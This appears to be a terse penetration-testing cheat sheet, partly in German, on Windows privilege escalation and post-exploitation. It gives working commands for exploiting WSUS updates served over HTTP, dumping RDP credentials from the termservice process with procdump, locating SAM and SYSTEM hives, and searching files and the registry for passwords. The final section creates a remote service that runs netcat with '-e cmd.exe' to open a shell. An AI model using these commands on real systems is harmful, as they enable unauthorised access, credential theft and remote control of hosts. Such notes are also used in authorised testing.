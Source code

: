 **Vulnerable Drivers** driverquery.exe /fo table

## Kiosk / Citrix / Isolation

* https://www.netspi.com/blog/technical/network-penetration-testing/breaking-out-of-applications-deployed-via-terminal-services-citrix-and-kiosks/
* Keyboard Shortcut or Menu to get Dialog box
* Windows Search
* Default Microost shortcuts (5x shift) https://support.microsoft.com/de-de/windows/tastenkombinationen-in-windows-dcc61a57-8ff0-cffe-9796-cb9706c75eec
* Right click to folder / Properties / Change folder Icon => Get explorer

## LOLBAS / LOLBINS

https://lolbas-project.github.io/

## WSUS Updates via HTTP

reg query HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate /v WUServer IF it is HTTP like to: HKEY\_LOCAL\_MACHINE\Software\Policies\Microsoft\Windows\WindowsUpdate WUServer REG\_SZ http://xxxx-updxx.corp.internal.com:8535

AND if HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate\AU /v UseWUServer is equals to 1 -it is exploitable! Use https://github.com/pimps/wsuxploit

https://www.gosecure.net/blog/2020/09/03/wsus-attacks-part-1-introducing-pywsus/ https://book.hacktricks.xyz/windows/windows-local-privilege-escalation

## Dump RDP Credentials from Terminalserver

https://pentestlab.blog/2021/05/24/dumping-rdp-credentials/ sc queryex termservice procdump64.exe -ma \[PID of termservice] -accepteula C:\Users\test

## SAM Files

%SYSTEMROOT%\repair\SAM %SYSTEMROOT%\System32\config\RegBack\SAM %SYSTEMROOT%\System32\config\SAM %SYSTEMROOT%\repair\system %SYSTEMROOT%\System32\config\SYSTEM %SYSTEMROOT%\System32\config\RegBack\system

## Search for user/pass in files/registry

cd C:\ & findstr /SI /M "password" \*.xml \*.ini \*.txt findstr /si password \*.xml \*.ini \*.txt \*.config

Suche nach registry einträgen mit password/passwort REG QUERY HKLM /F "password" /t REG\_SZ /S /K REG QUERY HKCU /F "password" /t REG\_SZ /S /K



## Services

Sc \hostname/ip create ncservice binpath= "c:\tools\nc\nc.exe -l -p 2222 -e cmd.exe" ///IMPORTANT space after "binpath= "

